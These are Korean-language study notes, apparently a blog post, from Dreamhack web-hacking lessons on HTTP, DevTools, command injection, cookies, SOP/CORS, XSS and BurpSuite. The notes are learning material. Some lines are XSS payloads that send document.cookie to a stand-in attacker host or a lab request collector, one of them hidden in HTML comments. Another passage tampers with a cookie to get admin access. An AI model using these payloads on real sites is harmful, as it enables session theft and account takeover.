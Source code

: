```yaml
---
layout: post
title:  "Web Hacking Study - Dreamhack"
toc: true
---
```


## Introduction
그냥 소개하는 곳이구나.
각오: 부지런하자

## Background: Web
World Wide Web, W3, Web, 웹
웹: HTTP를 이용하여 정보를 공유하는 서비스
HTTP: 웹상에서 서로 통신을 하기 위해 정해둔 일종의 규칙
프론트엔드(Front-end): 이용자의 요청을 받는 부분
백엔드(Back-end): 요청을 처리하는 부분

웹 리소스: 웹에 갖춰진 정보 자산 - 고유의 Uniform Resource Identifier(URL)을 가짐
- Hyper Text markup Language (HTML): 태그와 속성을 통한 구조화된 문서 작성 지원
- Cascading Style Sheets (CSS): 웹 리소스들의 시각화 방법을 기재한 스타일 시트
- JavaScript (JS): 웹 문서의 동작 정의. (Client-Side Script)

## Background: HTTP/HTTPS

클라이언트의 행의 요청: Request / 서버의 행위 응답: Response
프로토콜(Protocol): 규격화된 상호작용에 적용되는 약속

HTTP: 서버와 클라이언트의 데이터 교환을 요쳥과 응답 형식으로 정의한 프로토콜
### HTTP 헤더
각 줄은 CRLF로 구분되며 첫 줄은 시작 줄(Start Line), 나머지 줄은 헤더(Header)라고 부름
헤더의 끝은 빈 줄
### HTTP 바디
헤드의 끝을 나타내는 CRLF 뒤 모든 줄

### HTTP 요청
시작 줄: 메소드, 요청 대상, HTTP 버전으로 구성
- 메소드: 요청 대상에 대해 서버가 수행하길 바라는 동작
예) GET(리소스 가져와), POST(요청 대상에게 데이터 보내)
### HTTP 응답
시작줄: HTTP 버전, 상태 코드, 처리 사유로 구성. 띄어쓰기로 구분
- 상태 코드: 요청에 대한 처리 결과를 세 자릿수로 나타냄 (예: 404)

HTTPS(HTTP over Secure socket layer): TLS를 사용하여 HTTP를 보완한 프로토콜

## Background: Web Browser

웹 브라우저: 뛰어난 이용자 경험을 제공하는 소프트웨어 중 하나
URL은 Scheme, Authority (Userinfo, Host, Port), Path, Query, Fragment로 구성
- scheme: 웹 서버와 어떤 프로토콜로 통신할지
- Host: Authority의 일부. 접속할 웹 서버의 주소에 대한 정보
- Port: Authority의 일부. 접속할 웹 서버의 포트에 대한 정보
- Path: 접근할 웹 서버의 결로로 '/'로 구분
- Query: 웹 서버에 전달하는 파라미터. ? 뒤에 위치
- Fragment: 메인 리소스에 존재하는 서브 리소스를 접근할 때 식별하기 위한 정보. # 뒤에 위치

Domain name: 도메인의 특성을 담은 이름을 정의하여 IP 대신 사용 (예: naver.com)

웹 렌더링(Web rendering): 서버로부터 받은 리소스를 이용자에게 시각화하는 행위

## Tools: browser DevTools
개발자 도구: F12 누르면 나오는 창
요소 검사: 웹 페이지의 원하는 요소에 마우스를 올리면 대상의 정보 출력, 클릭하면 관련된 HTML 코드 하이라이팅
디바이스 툴바: 현재 브라우저의 화면 비율 및 User-Agent를 원하는 값으로 변경 가능
Elements: HTML 코드 읽기
- 코드를 선택한 상태로 단축키 F2를 누르거나 더블클릭하면 수정 가능.
Console: 프론트렌드의 자바스크립트 코드에서 발생한 각종 메세지를 출력, 이용자가 입력한 자바스크립트 코드를 실행해주는 도구
- 윈도우즈 단축키 : Ctrl + Shift + J
Sources: 현재 페이지를 구성하는 웹 리소스 확인 가능, 원하는 JS 디버깅 가능
Network: 서버와 오가는 데이터 확인 가능. 로그를 우클릭하고 Copy로 복사 가능
Application: 쿠키, 캐시, 이미지, 폰트, 스타일시트 등 웹 애플리케이션과 관련된 리소스 조회

## ServerSide: Command Injection
인젝션(Injection): 악의적인 데이터를 프로그램에 입력하여 이를 시스템 명령어, 코드, 데이터베이스 쿼리 등으로 실행되게 하는 기법
Command Injection: 이용자의 입력을 시스템 명령어로 실행하게 하는 취약점
-> 이용자의 입력을 제대로 검사하지 않으면 임의 명령어가 실행될 수 있음

'' 명령어 치환 - 중복 사용 불가
$() 명령어 치환 - 중복 사용 가능
&& 명령어 연속 실행 - 앞 명령어 에러 발생 X 시 뒷 명령어 실행
|| 명령어 연속 실행 - 앞 명령어 에러 발생 시 뒷 명령어 실행
; 명령어 구분
| 파이프 - 앞 명령어의 결과가 뒷 명령어의 입력으로 들어감

## Background: Cookie & Session
HTTP 프로토콜 특징
- Connectionless: 하나의 요청에 하나의 응답을 한 후 연결 종료
- Stateless: 통신이 끝난 후 상태 정보를 저장하지 않는 것
이러한 특성을 갖는 HTTP에서 상태를 유지하기 위해 쿠키 탄생

쿠키: Key와 Value로 이뤄진 일종의 단위
개개인에게 맞춤형 서비스를 제공하기 위해 클라이언트를 식별할 수 있는 값을 쿠키에 저장해 사용함
-> 서버가 검증 없이 쿠키를 통해 이용자의 인증 정보를 식별하면 악의적인 클라이언트가 쿠키 정보를 변조한 공격에 당할 수 있음

세션(Session): 인증 정보를 서버에 저장하고 해당 데이터에 접근할 수 있는 키(유추할 수 없는 랜덤한 문자열, Session ID)을 만들어 클라이언트에 전달

## Exercise: Cookie
엔드포인트: /
서버는 별다른 검증 없이 이용자 요청에 포함된 쿠키를 신뢰하고, 이용자 인증 정보를 식별하기 때문에 공격자는 쿠키에 타 계정 정보를 삽입해 계정을 탈취할 수 있습니다.

<!--
C:\Users\skanj>python -c "import flask; print('Flask is installed')"
Flask is installed

C:\Users\skanj>import flask
'import'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj>python -c import flask
  File "<string>", line 1
    import
          ^
SyntaxError: invalid syntax

C:\Users\skanj>python -c "import falsk"
Traceback (most recent call last):
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'falsk'

C:\Users\skanj>python -c "import flask"

C:\Users\skanj>python app.py
python: can't open file 'C:\\Users\\skanj\\app.py': [Errno 2] No such file or directory

C:\Users\skanj>cd /mnt/c/Users/skanj/OneDrive/바탕\ 화면/coding
지정된 경로를 찾을 수 없습니다.

C:\Users\skanj>cd C:\Users\skanj\OneDrive\바탕 화면\coding

C:\Users\skanj\OneDrive\바탕 화면\coding>python -c "import flask"

C:\Users\skanj\OneDrive\바탕 화면\coding>pyton app.py
'pyton'은(는) 내부 또는 외부 명령, 실행할 수 있는 프로그램, 또는
배치 파일이 아닙니다.

C:\Users\skanj\OneDrive\바탕 화면\coding>python app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.0.5:8000
Press CTRL+C to quit
-->

도대체 저 서버에 어떻게 들어가나 싶었는데 문제에 'VM 접속하기'를 누르면 들어갈 수 있는 서버가 떴다. 진짜 충격!!!

개발자 도구 -> 응용 프로그램 -> 쿠키 -> guest를 admin으로 변조

## Background: Cookie & Session
링크/admin 페이지에서 admin용 코드 복사해서 guest의 코드를 admin 코드로 붙여넣기

## mitigation: Same Origin Policy
SOP(Same Origin Policy), 동일 출처 정책: 가져온 데이터를 악의적인 페이지에서 읽을 수 없도록 하는 브라우저의 보안 매커니즘
이미지나 자바스크립트, CSS 등의 리소스는 SOP에 구애 받지 않고 외부 출처에 대해 접근을 허용한다

Origin(오리진): 브라우저가 가져온 정보의 출처
프로토콜(Protocol, Schema), 포트(Port), 호스트(Host)로 구성 -> 구성 요소가 모두 일치해야 동일한 오리진
동일한 오리진(Same Origin)-구성 요소가 모두 일치 / 다른 오리진(Cross Origin)-하나라도 다름

외부 출처에서 불러온 데이터를 읽으려고 할 때는 오류가 발생해 읽지 못함. 하지만 읽는 것 외에 데이터를 쓰는 것은 문제 없이 동작함.

교차 출처 리소스 공유(Cross Origin Resource Sharing, CORS): HTTP 헤더에 기반하여 Cross Origin 간에 리소스를 공유하는 방법
- 발신측에서 CORS 헤더를 설정해 요청하면, 수신측에서 헤더를 구분해 정해진 규칙에 맞게 데이터를 가져갈 수 있도록 설정

JSON with Padding (JSONP)
JSONP 방식은 <script> 태그로 Cross Origin의 데이터를 불러옴. 하지만 <script> 태그 내에서는 데이터를 자바스크립트의 코드로 인식하기 때문에 Callback 함수를 활용
예시: myCallback({'id':'dreamhack'});

## ClientSide: XSS
클라이언트 사이드 취약점: 웹 페이지의 이용자를 대상으로 공격할 수 있는 취약점
대표적인 공격: Cross Site Scripting(XSS) -  공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행할 수 있음
이용자가 삽입한 내용을 출력하는 기능에서 발생

발생 형태에 따른 XSS 종류
- Stored XSS: XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
- Refleced XSS: XSS에 사용되는 악성 스크립트가 URL에 삽입디고 서버의 응답에 담겨오는 XSS
- DOM-based XSS: XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS
- Universal XSS: 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점. SOP 정책을 우회하는 XSS

### 콘솔에 넣을 수 있는 자바 스크립트 코드들
alert("hello");
alert(document.cookie); // 현재 페이지의 쿠키를 인자로 가진 alert 실행.
document.cookie = "name=test;"; // 쿠키 생성(key: name, value: test)
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie; // new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정
document; // 이용자의 페이지 정보에 접근.
document.write("Hacked By DreamHack !"); // 이용자의 페이지에 데이터를 삽입.
location.href = "http://hacker.dreamhack.io/phishing"; // 이용자의 위치를 변경.
window.open("http://hacker.dreamhack.io/") // 새 창 열기

## Exercise: XSS
취약점: vuln은 이용자가 입력한 값을 페이지에 그대로 출력하기 때문에 XSS가 발생

<!--
flag 엔드포인트에서 다음과 같은 익스플로잇 코드를 입력하면, memo 엔드포인트에서 임의 이용자의 쿠키 정보를 확인할 수 있습니다.
<script>location.href = "/memo?memo=" + document.cookie;</script>
<script>location.href = "https://augpkgf.request.dreamhack.games/?memo=" + document.cookie;</script>
-->

## Exercise: XSS-2
셀레늄(Selenium): 웹 애플리케이션 테스팅에 사용되는 파이썬 패키지로, API를 통해 크롬, 사파리 등의 웹 드라이버를 사용할 수 있습니다
get으로 사용자가 입력한 param을 바로 return 하는 형태가 아니라, render_template 함수를 사용하고 있다 -> 이용자가 입력한 값을 페이지에 그대로 출력하지 않는다
var content = document.getElementById('example').innerHTML; // 읽기: 요소의 내부 HTML을 가져옴
document.getElementById('example').innerHTML = 'New Content'; // 쓰기: 요소의 내부 HTML을 변경
취약점: 이용자 입력을 바탕으로 innerHTML을 설정했을 때 XSS 공격에 취약할 수 있음

<!--
/flag 페이지의 param 부분에 입력하면, memo에서 임의 이용자의 쿠키 정보를 확인할 수 있게 됩니다.
<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">
-->

## 드림핵 아닌 BurpSuite
기능
- Proxy: HTTP, HTTPS 트래픽을 가로채고 조작할 수 있음. 요청 및 응답값 분석과 파라미터값 위/변조 가능
- 스캐너: 자동으로 웹 애플리케이션에서 보안취약점을 탐지하는 기능
- Repeater: 특정 응답값을 보내어 서버의 응답을 확인할 수 있음
- Intruder: 특정 응답값을 보내어, position, payload를 설정하여 무작위 대입을 할 수 있음
- Interceptor: 프록시에서 트래픽을 중단하고 사용자가 요청 및 응답을 수정한 후 전송 가능





